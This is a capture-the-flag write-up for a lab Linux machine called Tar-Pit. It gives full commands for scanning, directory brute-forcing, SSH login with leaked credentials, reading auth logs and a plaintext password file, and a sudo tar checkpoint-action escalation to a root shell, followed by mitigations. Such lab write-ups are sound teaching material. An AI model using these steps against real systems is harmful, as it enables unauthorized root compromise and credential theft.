

#  Tar-Pit: Complete Boot-to-Root Writeup

---

## Overview

**Machine Name:** Tar-Pit  
**Target IP:** 192.168.56.102  
**Difficulty:** Intermediate  
**Skills Required:** Web enumeration, log analysis, privilege escalation via GTFOBins  
**Final Flag:** `SECE{T4r_P1t_Esc4p3_Succ3ssful_2026}`

### Challenge Concept

The Tar-Pit machine simulates a hardened Linux environment designed to "trap" attackers in restricted shells. Success requires chaining multiple small misconfigurations:
- Information disclosure via web server
- Credential leakage in configuration filesd
- Excessive log access permissions
- Dangerous sudo privileges on system utilities

---

## Phase 1: Reconnaissance & Initial Access

### Step 1.1: Network Scanning

**Objective:** Identify open ports and running services on the target.

```bash
nmap -sV -sC -p- 192.168.56.102
```

**Expected Output:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    nginx 1.18.0
```

**Why This Matters:**
- **Port 22 (SSH):** Indicates we'll need credentials to gain shell access
- **Port 80 (HTTP):** Web server is our initial attack surface for information gathering

### Step 1.2: Web Enumeration

**Objective:** Discover hidden files and directories on the web server.

The main page at `http://192.168.56.102/` shows only a default Nginx welcome page. We need to enumerate further.

```bash
dirsearch -u http://192.168.56.102/ -e txt,php,bak,html
```

**Alternative Tools:**
```bash
# Using gobuster
gobuster dir -u http://192.168.56.102/ -w /usr/share/wordlists/dirb/common.txt -x txt,php,bak

# Using ffuf
ffuf -u http://192.168.56.102/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .txt,.php,.bak
```

**Discovery:** `http://192.168.56.102/dev_notes.txt`

**Why This Works:**
- Developers often leave notes, backups, or configuration files in web-accessible directories
- Common extensions like `.txt`, `.bak`, `.old` are frequently overlooked during deployment
- Directory brute-forcing reveals resources not linked from the main page

### Step 1.3: Information Disclosure

**Objective:** Extract sensitive information from discovered files.

```bash
curl http://192.168.56.102/dev_notes.txt
```

**File Contents:**
```
TODO:
- Change dev password later
- Current login for testing: dev / dev@2022
- Remember to remove this file before production
- Harper
```

**Critical Findings:**
- **Username:** `dev`
- **Password:** `dev@2022`
- **Developer Name:** Harper (useful for social engineering or password pattern analysis)

**Why This Vulnerability Exists:**
- **Poor Operational Security (OpSec):** Developers left credentials in plaintext
- **Lack of Access Control:** Sensitive files were web-accessible without authentication
- **No Pre-Production Checklist:** File wasn't removed before deployment

### Step 1.4: SSH Authentication

**Objective:** Establish initial foothold on the system.

```bash
ssh dev@192.168.56.102
```

**When prompted for password, enter:** `dev@2022`

**Successful Login:**
```
dev@b2r-lab:~$
```

**Why This Works:**
- SSH service accepts password authentication (not restricted to key-based auth)
- Credentials are valid and the account is active
- No additional security measures (2FA, IP whitelisting) are in place

---

## Phase 2: Lateral Movement via Log Analysis

### Step 2.1: Environmental Reconnaissance

**Objective:** Understand our current user's privileges and group memberships.

```bash
dev@b2r-lab:~$ id
```

**Output:**
```
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),108(lxd)
```

**Analysis of Group Memberships:**

| Group | GID | Significance |
|-------|-----|--------------|
| `dev` | 1000 | Primary group (standard user) |
| `adm` | 4 | **CRITICAL:** Can read system logs in `/var/log/` |
| `lxd` | 108 | Can manage LXD containers (potential privesc vector) |

**Why `adm` Group Matters:**
- Members of `adm` can read authentication logs, system logs, and application logs
- This allows us to monitor other users' activities
- We can identify privileged users and their behaviors

### Step 2.2: Privilege Enumeration

**Objective:** Check if we have any sudo privileges.

```bash
dev@b2r-lab:~$ sudo -l
```

**Output:**
```
[sudo] password for dev:
Sorry, user dev may not run sudo on b2r-lab.
```

**Result:** No sudo privileges for the `dev` user. We need to find another path.

### Step 2.3: Log Analysis for User Discovery

**Objective:** Identify other users who have elevated privileges.

```bash
dev@b2r-lab:~$ grep -a "sudo:session" /var/log/auth.log
```

**Why Use `-a` Flag:**
- Log files may contain binary/non-printable characters
- `-a` treats the file as text, preventing grep from skipping it

**Sample Output:**
```
Jan 29 17:30:39 b2r-lab sudo: pam_unix(sudo:session): session opened for user root(uid=0) by backup(uid=34)
Jan 29 17:35:12 b2r-lab sudo: pam_unix(sudo:session): session opened for user root(uid=0) by backup(uid=34)
Jan 29 17:42:08 b2r-lab sudo: pam_unix(sudo:session): session opened for user root(uid=0) by backup(uid=34)
```

**Critical Discovery:**
- User with **UID 34** is executing commands as root via sudo
- This user is named `backup` (confirmed by the log entry)
- This user has legitimate sudo access

### Step 2.4: User Identification

**Objective:** Confirm the identity of UID 34.

```bash
dev@b2r-lab:~$ grep "x:34:" /etc/passwd
```

**Output:**
```
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```

**Analysis:**
- **Username:** `backup`
- **UID/GID:** 34/34
- **Home Directory:** `/var/backups`
- **Shell:** `/usr/sbin/nologin` (typically means no interactive login)

**Why This Is Interesting:**
- Despite having `nologin` shell, the user can still execute sudo commands
- System accounts often have weak password policies
- Configuration files might contain credentials for automated tasks

### Step 2.5: Credential Hunting

**Objective:** Find credentials for the `backup` user.

```bash
dev@b2r-lab:~$ find / -name "*backup*" -type f 2>/dev/null | grep -v proc
```

**Alternative Search Methods:**
```bash
# Search for configuration files
find /etc -name "*backup*" 2>/dev/null

# Search for files containing "backup" in content
grep -r "backup" /etc/*.conf 2>/dev/null

# Look for common config locations
ls -la /etc/ | grep backup
```

**Discovery:** `/etc/backup.conf`

```bash
dev@b2r-lab:~$ cat /etc/backup.conf
```

**File Contents:**
```
BACKUP_USER=backup
BACKUP_PASS=backup@2022
BACKUP_DIR=/var/backups
BACKUP_SCHEDULE=daily
```

**Critical Vulnerability:**
- **Plaintext Credentials:** Password stored without encryption
- **World-Readable:** File permissions likely allow any user to read it
- **Predictable Password:** Follows same pattern as `dev` account (`<username>@2022`)

**Verify File Permissions:**
```bash
dev@b2r-lab:~$ ls -la /etc/backup.conf
-rw-r--r-- 1 root root 98 Jan 28 10:15 /etc/backup.conf
```

**Permission Breakdown:**
- `-rw-r--r--`: Owner can read/write, group and others can read
- This means ANY user on the system can read this file

---

## Phase 3: Privilege Escalation

### Step 3.1: Lateral Movement to Backup User

**Objective:** Switch to the `backup` user account.

```bash
dev@b2r-lab:~$ su - backup
Password: backup@2022
```

**Expected Behavior:**
Despite the `nologin` shell in `/etc/passwd`, the `su` command may still work because:
- `su -` attempts to spawn the user's default shell
- Some systems allow `su` even with `nologin` if you have the password
- The shell restriction is for remote logins, not local switching

**If `su -` fails, try:**
```bash
su backup -s /bin/bash
```

This explicitly specifies bash as the shell.

**Successful Switch:**
```bash
backup@b2r-lab:~$
```

### Step 3.2: Sudo Privilege Enumeration

**Objective:** Check what commands `backup` can run as root.

```bash
backup@b2r-lab:~$ sudo -l
```

**Output:**
```
Matching Defaults entries for backup on b2r-lab:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User backup may run the following commands on b2r-lab:
    (root) NOPASSWD: /usr/bin/tar
```

**Analysis:**
- `backup` can run `/usr/bin/tar` as root
- `NOPASSWD` means no password required
- This is a **critical misconfiguration**

**Why This Is Dangerous:**
- `tar` is a powerful archiving utility
- It has features that allow arbitrary command execution
- Running it as root means those commands execute with root privileges

### Step 3.3: GTFOBins Research

**Objective:** Find a method to exploit `tar` for privilege escalation.

**GTFOBins** is a curated list of Unix binaries that can be exploited to bypass security restrictions. Visit: https://gtfobins.github.io/gtfobins/tar/

**Relevant Exploit Method: Checkpoint Actions**

`tar` has a feature called "checkpoints" that allows executing commands at specific intervals during archiving:

```bash
tar -cf archive.tar files --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

**How It Works:**
1. `--checkpoint=1`: Execute checkpoint action after processing 1 record
2. `--checkpoint-action=exec=/bin/sh`: Execute `/bin/sh` at each checkpoint
3. Since we run `tar` as root via sudo, the spawned shell is also root

### Step 3.4: Exploiting tar for Root Shell

**Objective:** Execute arbitrary commands as root.

```bash
backup@b2r-lab:~$ sudo /usr/bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

**Command Breakdown:**

| Component | Purpose |
|-----------|---------|
| `sudo` | Run as root |
| `/usr/bin/tar` | Full path to tar (required by sudo) |
| `-cf /dev/null` | Create archive to `/dev/null` (discarded) |
| `/dev/null` | Archive this file (minimal processing) |
| `--checkpoint=1` | Trigger checkpoint after 1 record |
| `--checkpoint-action=exec=/bin/bash` | Execute bash at checkpoint |

**Why Use `/dev/null`:**
- We don't actually want to create an archive
- `/dev/null` is a black hole that discards all data
- Using it as both source and destination minimizes disk I/O

**Successful Exploitation:**
```bash
root@b2r-lab:/# 
```

**Verify Root Access:**
```bash
root@b2r-lab:/# id
uid=0(root) gid=0(root) groups=0(root)

root@b2r-lab:/# whoami
root
```

---

## Phase 4: Root Flag Capture

### Step 4.1: Locate the Flag

**Objective:** Find and read the root flag.

```bash
root@b2r-lab:/# cd /root
root@b2r-lab:~# ls -la
```

**Expected Files:**
```
total 28
drwx------  3 root root 4096 Jan 29 10:15 .
drwxr-xr-x 19 root root 4096 Jan 28 08:30 ..
-rw-------  1 root root  220 Jan 28 08:30 .bash_logout
-rw-------  1 root root 3526 Jan 28 08:30 .bashrc
-rw-------  1 root root  807 Jan 28 08:30 .profile
-rw-------  1 root root   38 Jan 29 10:15 root.txt
```

### Step 4.2: Capture the Flag

```bash
root@b2r-lab:~# cat root.txt
SECE{T4r_P1t_Esc4p3_Succ3ssful_2026}
```

**🎉 SUCCESS! Root flag captured.**

---

## Attack Chain Summary



### Complete Attack Path

| Phase | Action | Vulnerability Exploited | Result |
|-------|--------|------------------------|--------|
| **1** | Web enumeration | Information disclosure | Found `dev_notes.txt` |
| **2** | Read dev notes | Plaintext credentials | Obtained `dev:dev@2022` |
| **3** | SSH login | Weak credentials | Initial foothold |
| **4** | Check group membership | Excessive permissions | Found `adm` group |
| **5** | Analyze auth logs | Unrestricted log access | Identified `backup` user |
| **6** | Search for configs | Insecure credential storage | Found `/etc/backup.conf` |
| **7** | Switch to backup | Password reuse pattern | Lateral movement |
| **8** | Check sudo rights | Dangerous sudo policy | Found `tar` privilege |
| **9** | Exploit tar | GTFOBins technique | Root shell |
| **10** | Read flag | Complete system compromise | Mission accomplished |

---

## Key Takeaways & Mitigations

### Vulnerabilities Identified

#### 1. **Information Disclosure (Web Server)**

**Vulnerability:**
- Sensitive files accessible via web server
- Development notes containing credentials

**Mitigation:**
```bash
# Remove sensitive files from web root
rm /var/www/html/dev_notes.txt

# Implement .htaccess restrictions
<Files "*.txt">
    Require all denied
</Files>

# Use robots.txt to discourage indexing (not a security control)
# Better: Don't put sensitive files in web-accessible directories
```

#### 2. **Plaintext Credential Storage**

**Vulnerability:**
- Passwords stored in plaintext in configuration files
- World-readable file permissions

**Mitigation:**
```bash
# Use environment variables instead
export BACKUP_PASS="$(cat /root/.backup_secret)"

# Restrict file permissions
chmod 600 /etc/backup.conf
chown root:root /etc/backup.conf

# Better: Use credential management systems
# - HashiCorp Vault
# - AWS Secrets Manager
# - Ansible Vault for automation
```

#### 3. **Excessive Log Access (adm Group)**

**Vulnerability:**
- Regular users can read authentication logs
- Allows monitoring of privileged user activities

**Mitigation:**
```bash
# Remove users from adm group unless necessary
gpasswd -d dev adm

# Restrict log file permissions
chmod 640 /var/log/auth.log
chown root:adm /var/log/auth.log

# Implement log rotation with restricted permissions
# Edit /etc/logrotate.d/rsyslog
create 0640 root adm
```

#### 4. **Dangerous Sudo Privileges**

**Vulnerability:**
- `tar` can execute arbitrary commands
- NOPASSWD allows exploitation without authentication

**Mitigation:**
```bash
# Remove dangerous sudo privileges
# Edit /etc/sudoers or /etc/sudoers.d/backup
# BEFORE:
# backup ALL=(root) NOPASSWD: /usr/bin/tar

# AFTER (if tar is truly needed):
backup ALL=(root) NOPASSWD: /usr/bin/tar -czf /var/backups/*.tar.gz /path/to/backup/*

# Better: Use dedicated backup solutions
# - rsync with specific flags
# - Dedicated backup software (Bacula, Amanda)
# - Scheduled systemd timers with hardened scripts
```

### Security Best Practices

#### For System Administrators:

1. **Principle of Least Privilege**
   - Grant only necessary permissions
   - Regularly audit user group memberships
   - Use sudo with specific command restrictions

2. **Credential Management**
   - Never store passwords in plaintext
   - Use secrets management solutions
   - Implement password rotation policies

3. **File Permissions**
   - Apply restrictive permissions by default
   - Regularly audit world-readable files
   - Use `umask 027` or stricter

4. **Logging & Monitoring**
   - Monitor sudo usage
   - Alert on unusual authentication patterns
   - Restrict log access to security team only

5. **Web Server Hardening**
   - Separate web root from sensitive files
   - Implement directory listing restrictions
   - Use web application firewalls (WAF)

#### For Penetration Testers:

1. **Enumeration is Key**
   - Always check group memberships
   - Read accessible logs for intelligence
   - Search for configuration files

2. **Pattern Recognition**
   - Look for password patterns (e.g., `username@year`)
   - Check for credential reuse
   - Identify naming conventions

3. **GTFOBins Knowledge**
   - Familiarize yourself with exploitable binaries
   - Understand checkpoint/callback mechanisms
   - Practice sudo exploitation techniques

---

## Tools Used

| Tool | Purpose | Command Example |
|------|---------|-----------------|
| `nmap` | Port scanning | `nmap -sV -sC -p- <IP>` |
| `dirsearch` | Web enumeration | `dirsearch -u http://<IP>/ -e txt,php` |
| `ssh` | Remote access | `ssh user@<IP>` |
| `grep` | Log analysis | `grep -a "pattern" /var/log/auth.log` |
| `find` | File discovery | `find / -name "*backup*" 2>/dev/null` |
| `su` | User switching | `su - username` |
| `sudo` | Privilege execution | `sudo -l` |
| `tar` | Exploitation vector | `tar --checkpoint-action=exec=/bin/sh` |

---

## Conclusion

The **Tar-Pit** machine demonstrates how multiple small misconfigurations can be chained together to achieve complete system compromise. The challenge emphasizes:

- **Information gathering** through web enumeration
- **Log analysis** for lateral movement opportunities  
- **Configuration file hunting** for credential discovery
- **GTFOBins exploitation** for privilege escalation

This boot-to-root scenario mirrors real-world environments where security is often weakened by operational convenience, poor credential management, and overly permissive sudo policies.

**Final Flag:** `SECE{T4r_P1t_Esc4p3_Succ3ssful_2026}`

---

*Writeup created: January 31, 2026*  
*Machine: Tar-Pit (Boot-to-Root)*  
*Difficulty: Intermediate*
